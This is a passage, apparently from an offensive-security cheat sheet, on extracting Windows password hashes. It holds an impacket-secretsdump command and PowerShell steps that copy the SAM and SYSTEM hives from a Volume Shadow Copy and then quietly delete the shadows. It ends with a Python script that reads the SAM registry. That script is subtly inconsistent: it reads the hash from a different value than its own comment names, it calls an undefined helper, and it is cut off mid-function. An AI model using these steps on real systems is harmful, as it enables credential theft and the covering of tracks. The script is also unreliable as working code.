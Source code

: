  Extract hashes offline
impacket-secretsdump -sam sam.hiv -system system.hiv LOCAL
```

#### Volume Shadow Copy
```powershell
# Create shadow copy
vssadmin create shadow /for=C:

# Copy SAM from shadow copy
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SAM C:\Temp\SAM
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SYSTEM C:\Temp\SYSTEM

# Clean up
vssadmin delete shadows /for=C: /quiet
```

#### Direct Memory Access
```python
# Python script to extract SAM from memory
import struct
import winreg

def extract_sam_hashes():
    """Extract password hashes from SAM"""
    
    # Open SAM registry key
    sam_key = winreg.OpenKey(winreg.HKEY_LOCAL_MACHINE, 
                             r"SAM\SAM\Domains\Account\Users")
    
    hashes = {}
    
    # Enumerate user RIDs
    i = 0
    while True:
        try:
            rid_key = winreg.EnumKey(sam_key, i)
            
            # Open user key
            user_key = winreg.OpenKey(sam_key, rid_key)
            
            # Get username
            username_bytes = winreg.QueryValueEx(user_key, "V")[0]
            username = extract_username(username_bytes)
            
            # Get hash
            hash_bytes = winreg.QueryValueEx(user_key, "F")[0]
            nt_hash = extract_nt_hash(hash_bytes)
            
            hashes[username] = nt_hash
            
            winreg.CloseKey(user_key)
            i += 1
            
        except WindowsError:
            break
    
    winreg.CloseKey(sam_key)
    return hashes

def extract_nt_hash(data):
    """Extract NT hash from SAM data structure"""
    # NT hash offset in V value
    nt_hash_offset = 0xA8
```
